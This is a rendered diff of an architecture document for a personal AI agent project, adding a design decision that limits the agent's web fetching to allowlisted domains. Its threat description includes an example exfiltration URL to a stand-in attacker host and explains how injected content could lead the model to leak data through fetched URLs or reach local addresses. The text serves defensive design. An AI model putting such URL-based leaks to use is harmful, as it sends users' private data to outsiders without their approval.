

Before and after one commit to iwan-adler/personal-ai-agent, a Markdown page: docs/architecture.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: record D6 (web access only to allowlisted domains)
Co-Authored-By: Claude Opus 5.5 <noreply@anthropic.com>

```diff
--- a/docs/architecture.md
+++ b/docs/architecture.md
@@ -299,6 +299,23 @@ run. The CLI keeps working on top of that.
 5. The audit log, safety layer and grants do not change: the UI is just another way
    to answer yes or no, like `input()` today.
 
+### D6: web access only to allowlisted domains (decided 2026-10-17)
+
+V0.7's opportunity scout and research need the web, the largest risk since
+publishing. Besides injection at scale, a model that picks URLs can **leak data in the
+URL itself** (`https://attacker.example/?notes=...`): merely fetching it sends the
+data, with no text for the user to approve. It could also reach the local network
+(`localhost`, `192.168.x.x`).
+
+**Chosen: feeds plus allowlisted pages.** RSS/Atom feeds come from a fixed list the
+user configures, and `web_fetch` reaches only domains on `WEB_ALLOWLIST`: HTTPS only,
+redirects only within the list, every resolved IP checked against private, loopback
+and link-local ranges, no cookies or credentials, size and time limits. Exfiltration
+is then possible only to domains the user trusts. **Rejected for now:** a web search
+API with arbitrary result URLs (new key and cost; model-chosen URLs would need a
+prompt on every fetch). It stays a separate decision if allowlisted research proves
+too narrow.
+
 ## V0.4+ (not built)
 
 Do not add these until the previous milestone is approved:
```
